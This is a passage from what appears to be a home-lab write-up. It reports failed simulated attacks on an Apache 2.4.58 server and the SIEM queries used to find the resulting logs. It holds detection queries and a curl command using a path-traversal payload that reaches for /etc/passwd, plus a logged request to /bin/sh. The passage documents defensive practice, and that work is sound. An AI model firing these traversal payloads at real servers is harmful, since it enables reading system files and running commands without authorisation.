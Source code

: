 

    - Outcomes from both simulated attacks

        Since there wasn't any verified Apache 2.4.58 vulnerable CVEs I was forced to used a prior CVEs that have been since patched as Apached updated its application.  This is why there I was unable to successfully gain access.  


<br><br>


5.  Verifying logs in the SIEM of the attacks

    - Queried by message and program looking for logs pertaining to my Apache attack : 
            
            message:("/cgi-bin" OR "%2e" OR "bin/sh") AND program:("apache2" OR "apache_access")

            program: "apache_access" AND message: ("/cgi-bin" OR "%2e" OR "bin/sh")


        - Log identified was a post 
        
            POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh`

        - Command used:

                curl -v --path-as-is http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

        - Log identified was GET
        
                "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

